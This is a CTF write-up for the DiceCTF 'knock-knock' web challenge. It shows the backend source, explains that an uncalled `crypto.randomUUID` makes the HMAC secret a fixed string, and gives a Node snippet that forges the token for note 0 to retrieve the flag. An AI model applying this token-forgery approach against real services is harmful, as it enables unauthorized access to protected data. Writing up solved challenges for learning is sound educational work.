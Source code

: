 # DiceCTF knock-knock Write Up

## Details:

Jeopardy style CTF

Category: Web Exploitation

## Write up:

The challenge provides the link: [knock-knock.mc.ax](https://knock-knock.mc.ax/)

In the page you can create a new note and read existing ones (if you know the correct id and corresponding token).

The source code of the backend is provided:

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```


We can observe that the flag is saved in the first note (so with id 0), if we find a way to generate a valid token for each id we can request the flag with the GET request `https://knock-knock.mc.ax/note?id=0&token=CORRECT_TOKEN`.

The server checks if the given token is equal to the one generated for the given id with the following function

```js
crypto.createHmac('sha256', this.secret).update(id.toString()).digest('hex');
```

where
```js
this.secret = `secret-${crypto.randomUUID}`;
```

The function `crypto.randomUUID()` returns a pseudo-random string, for example `fb5c81ab-c3ae-40c4-9586-29a7e459e263`, so we could think that `this.secret` will be an unpredictable random string similar to `secret-fb5c81ab-c3ae-40c4-9586-29a7e459e263`.

But the code doesn't call `crypto.randomUUID()`, because there aren't the parenthesis and we can test that `secret-${crypto.randomUUID}` outputs the code of the function as text, so the secret key will be the following string:

```
'secret-function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
  "    validateObject(options, 'options');\n" +
  '  const {\n' +
  '    disableEntropyCache = false,\n' +
  '  } = options || {};\n' +
  '\n' +
  "  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');\n" +
  '\n' +
  '  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();\n' +
  '}'
```

Having the constant secret key we can recreate the token corresponding to any id, in particular we can calculate the token for id 0:

```js
const crypto = require('crypto');
let secret = `secret-${crypto.randomUUID}`;
let id = 0;
console.log(crypto.createHmac('sha256', secret).update(id.toString()).digest('hex'));
```

that generates the string `7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264`.

So the flag can be retrieved with the GET request `https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264` (for example performed using a browser).

## Flag

The page will respond with the flag `dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}`
